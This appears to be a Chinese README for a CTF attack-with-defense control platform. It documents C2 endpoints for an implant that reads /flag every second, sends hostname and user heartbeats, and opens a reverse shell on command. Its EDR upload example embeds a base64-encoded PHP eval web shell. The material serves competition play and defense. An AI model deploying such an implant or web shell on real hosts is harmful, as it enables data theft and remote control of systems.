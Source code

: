 # AWD中台

## 命令行参数

```
-u string
    用户名 (默认: 0RAYS)
-p string  
    密码 (必需，无默认值)
-P string
    监听端口 (默认: 26666)

示例:
./0rays-awd-platform.exe -u 0RAYS -p 0raysnb -P 26666
```

## API接口说明

### 说明

一个简单的远控, 每1秒读取一次/flag, 然后判断是否有变化, 如果有变化就发到c2那边

每60秒一次心跳包, 心跳包里面上传主机名, 用户名等数据

如果心跳包api返回1, 则代表需要反弹shell, 这个时候从get-rs api获取, 然后建立反弹shell

### C2客户端接口

#### 提交Flag

```
POST /api/c2/submit-flag?flag=flag{test123}
Response: 200 OK
```

#### 心跳包

```
POST /api/c2/heartbeat
Content-Type: application/json

{
    "hostname": "web01",
    "username": "www-data", 
    "pid": "1234",
    "process_name": "flag_monitor"
}

Response: 0 或 1 (是否需要反弹shell)
```

#### 获取反弹Shell地址

```
GET /api/c2/get-rs
Response: 192.168.1.100|1337
```

---

### 说明

告警和监控文件

告警上传的文件会放在/edr_files文件夹下面隔离

### Agent EDR接口

#### EDR告警

```
GET /api/agent/edr-alert?type=warning&message=检测到可疑文件.shell.php

参数说明:
- type: 告警类型 (warning, info, success)
- message: 告警消息内容

Response: 200 OK

注意: title固定为"EDR消息"
```

#### 上传可疑文件

```
POST /api/agent/edr-suspicious-file
Content-Type: application/json

{
    "filename": ".shell.php",
    "path": "/var/www/html/",
    "content": "PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs/Pg=="
}

注意: 
- filename: 文件名，会自动过滤路径穿越字符
- path: 文件所在路径
- content: base64编码的文件内容
- 文件大小限制10MB (base64编码前)
- 此API不会自动产生告警消息，需要EDR agent自行调用edr-alert API
```

